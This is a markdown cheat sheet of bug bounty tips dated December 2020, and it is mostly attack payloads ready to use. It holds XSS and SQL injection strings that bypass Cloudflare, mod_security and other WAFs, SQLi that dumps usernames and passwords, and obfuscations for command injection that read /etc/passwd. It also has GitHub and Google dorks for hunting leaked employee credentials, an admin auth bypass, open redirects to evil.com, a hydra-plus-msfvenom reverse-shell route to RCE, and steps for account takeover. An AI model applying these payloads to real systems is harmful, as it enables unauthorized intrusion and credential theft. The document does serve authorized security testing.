

# December-2020 Bug Bounty Tips

📅 01-Dec-2020
## Misconfigured Jira Instance Discloses Sensitive Information
`site:http://atlassian.net "company"`

## Gitlab H1 Reports from [yvvdwf](https://hackerone.com/yvvdwf?type=user)
- https://hackerone.com/reports/950190
- https://hackerone.com/reports/806571
- https://hackerone.com/reports/824689
- https://hackerone.com/reports/831962

## Admin Auth Bypass
```http
GET /admin%2ejsp%3b.png
```
Was able to turn a number of post-auth SQL injections into pre-auth vulns.

## Dump Elastic Search Instances
***https://github.com/Ibonok/elastic_scan***

## IBM Maximo Asset Management is vulnerable to Information Disclosure via XXE Vulnerability (CVE-2020-4463)
***https://github.com/Ibonok/CVE-2020-4463***

## .git Folder Files Access Get Full File List With .git/index File.
***https://twitter.com/Tismayil1/status/1333423100239769600?s=20***

## XSS
```js
<iframe src="%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A%3Aalert(0)">
```

## Open redirect
```text
?redirect=/admin/
Goes to: http://website.com/admin/

?redirect=@google.com
Goes to: website.com@google.com
```
## Jira Dork
### Google Dork
`inurl:/ContactAdministrators!default.jspa`

📅 05-Dec-2020
### Github Dork
```text
"https://target.com" password or secret
"target.atlassian" password
"target.okta" password
"https://jira.target" password
"https://corp.target" password
"target.onelogin" password
"target.service-now" password
some time only "target"
Secret_key=
User_secret=
admin_passwd=
security_credentials
connectiondtring
JBBC
ssh2_auth-password
send_keys or send,keys
```

Always look for internal sub-domains of companies on GitHub
```text
"https://target.atlassian.com" password
"https://jira.target.com" password
"https://internal.target.com" password
```
Helps to track down employee exposed Jira credentials in GitHub repos.
other ways to find employee exposed sensitive files:

```text
"https://t.co/JgpXAQrPpW" dotfiles
"https://t.co/JgpXAQrPpW" authorizationToken
"https://t.co/JgpXAQrPpW" access_token
"https://t.co/JgpXAQrPpW" secret_key
```

## SQL payload to bypass mod_security 💉
```sql
/*!12345#qa%0A#%0AUnIOn*/(/*!12345#qa%0A#%0ASeleCt*//**/1)+--+
```

## When you are looking for bugs like SSRF & Open Redirect.
- and there is a blacklisted character. 
- try to bypassed using other Unicode characters.
- I found Open Redirect Bypass Using (。) Chinese dot `"%E3%80%82".`
poc: `redirect_to=////evil%E3%80%82com`

## Directory Traversal to Information Disclosure


## Recon

```sh
amass enum -passive -norecursive -d https://abc.com -o domain ; httpx -l domain -silent -threads 10 | nuclei -t PATH -o result -timeout 30 
```
I've found between medium and critical, with this tip.
Try to change the sites, DoD accepts exposed software versions

## finding endpoints:
```sh
cat js | grep -o -E "(https?://)?/?[{}a-z0-9A-Z_\.-]{2,}/[{}/a-z0-9A-Z_\.-]+"
```

## Degoogle Usage Tip
Tip from [@m4ll0k](https://twitter.com/m4ll0k)
```sh
python3 degoogle.py 'site:uber.com +inurl:(jsp|pl|php|html|aspx|htm|cf|shtml)' -j -p 10|grep -iE '^http'
```
**Example**


## XSS to Openredirect
```js

```

## Find RCE
1. subdomain enum
2. used "ffuf" and found tomcat on ";/..;/manager"
3. weak cred (used hydra)
4. "/manager/html" blocked, "/manager/text" was not
5. used "msfvenom" and crated reverse shell war
6. used "curl" and deployed the war file
7. rce!

## Turn a 2 hour "wpscan -e ap" scan into 10 min
```sh
curl https://t.co/bjcepky8e5 |jq -r '.plugins' | grep ": {" | cut -d "\"" -f2 |while read word; do echo /wp-content/plugins/$word/readme.txt; done > wordpress_dict.txt
ffuf -w wordpress_dict.txt -u $IP/FUZZ -t 400 -mr 'Contributors'
```

## Cloudflare XSS Bypass
```js
<a"/onclick=(confirm)()>Click Here!
```

## Web Attack WAF Bypass

### SQL Injection
```sql
1,group_concat(table_name) /*%%!asd%%%%*/from /*%%!asd%%%%*/information_schema.tables where table_schema=database(/*%%!asd%%%%*/) --+
```
```sql
1,group_concat(column_name) /*%%!asd%%%%*/from/*%%!asd%%%%*/information_schema.columns where table_name='users' --+
```
```sql
1' union/*%%!asd%%%%*/select group_concat(user),group_concat(password) /*%%!asd%%%%*/from/*%%!asd%%%%*/users --+
```

## Web Attack WAF Bypass

## XSS
```js
<audio src=1 onerror=alert(/xss/);>
<audio src=1 onerror=prompt('xss');>
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4="></object>
```

## Time based SQLi -> forgot password Endpoint 😇 
1. Payload used: 

```sql
'%2b(select*from(select(sleep(20)))a)%2b'
```

2. Endpoint: /Forgot password 
Cheers 🍻 

## You can serve a XSS payload from a XML file: xss.xml:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<html xmlns:html="http://w3.org/1999/xhtml">
<html:script>prompt(document.domain);</html:script>
</html>
```
📅 15-Dec-2020
## Abusing Docker API
***https://dreamlab.net/en/blog/post/abusing-exposed-docker-registry-apis/***

## Command Injection Bypass
```sh
cat /etc/passwd
cat /e"t"c/pa"s"swd
cat /'e'tc/pa's' swd
cat /etc/pa??wd
cat /etc/pa*wd
cat /et' 'c/passw' 'd
cat /et$()c/pa$()$swd
cat /et${neko}c/pas${poi} swd
*echo "dwssap/cte/ tac" | rev
$(echo Y2FOIC9ldGMvcGFzc3dkCg== base64 -d)
w\ho\am\i
/\b\i\n/////s\h
who$@ami
xyz%0Acat%20/etc/passwd
IFS=,;`cat<<<uname,-a`
Bypass with variable expansion
/???/??t /???/p??s??
test=/ehhh/hmtc/pahhh/hmsswd
cat ${test//hhh\/hm/}
cat ${test//hh??hm/}
```

## "Cloudflare" XSS live payloads: 🧠
```js
&lt;img longdesc="src='x'onerror=alert(document.domain);//&gt;&lt;img " src='showme'&gt;
&lt;img longdesc="src=" images="" stop.png"="" onerror="alert(document.domain);//&amp;quot;" src="x" alt="showme"&gt;
```

## Bypass an xss filter
```js
%ff<!---><svg/onload=top[/al/.source+/ert/.source]&lpar;)>
```
- %ff - bypassed tag restrictions
- `<!--->` - bypassed attribute restrictions

[](https://twitter.com/sh1yo_/status/1340560932641103872?s=20)

## WAF bypass Tips by @0xInfection
Case: File Upload `(.php blocked)`
/?file=xx.php    <- Blocked
/?file===xx.php  <- Bypassed
The file got uploaded successfully.

## 1.Account setting page: Update new Email:
Normal: 
"Email":"me@gmail.com" (200 OK)
New:
"Email":"admin@target.com"  (error msg : u can't change the email to @target.com )
New Update:
"Email":" admin@target.com    " (200 OK)
just add space

📅 20-Dec-2020
## Useful Google Dorks
```text
site:https://repl.it/ intext:company
site:https://zoom.us/ inurl:company
site:https://www.atlassian.com inurl:company
site:https://aws.amazon.com/s3/ inurl:company
site:https://pastebin.com/ inurl:company
site:https://company.com intitle:Index of
site:https://company.com ext:log
site:https://company.com inurl:redir | inurl:redirect | inurl:return | inurl:to
site:https://company.com ext:doc | ext:docx | ext:odt | ext:pd
site:https://company.com ext:sql
```

## Stored XSS
Use this payload as file name by using Proxy programs
```js
 \">
```

## Java portlet input, non-valid char in encoded char becomes zero.

```js
<Svg%K9OnLoad=%7Krompt%6K1%6K>
```
[](https://twitter.com/brutelogic/status/1342458411225636870?s=20)

## css injection payload

```css
1"Style="position:fixed;top:350;left:400;font-size:99999px;"OnPointerEnter="new class extends confirm`_Y000!_`{}"
```

## HTTP PUT Override
If server only allows GET and POST method, then try adding “X-HTTP-Method -Override: PUT to achieve RCE via PUT method

## waybackurls always rockxx❤️, got awarded $$$$ for Account takeover.
1. waybackurls target > wayback.txt
2. found an unauth endpoint: target/api/reset?user=--id-here--&type=email
3. page accepting new email and password🙄
4. tried by entering my userid, new email and password
5. changed successfully, means endpoint working😛
6. now the thing is how to bypass password restriction😞
7. tried response interception etc, nothing worked😒
8. then removed password parameter in proxy, and forwarded Boom🔥!!! Email changed successfully.🌞
After that they added email verification by sending 4 digit otp on previous email.
No rate limiting on otp verification😈.
Another $$$
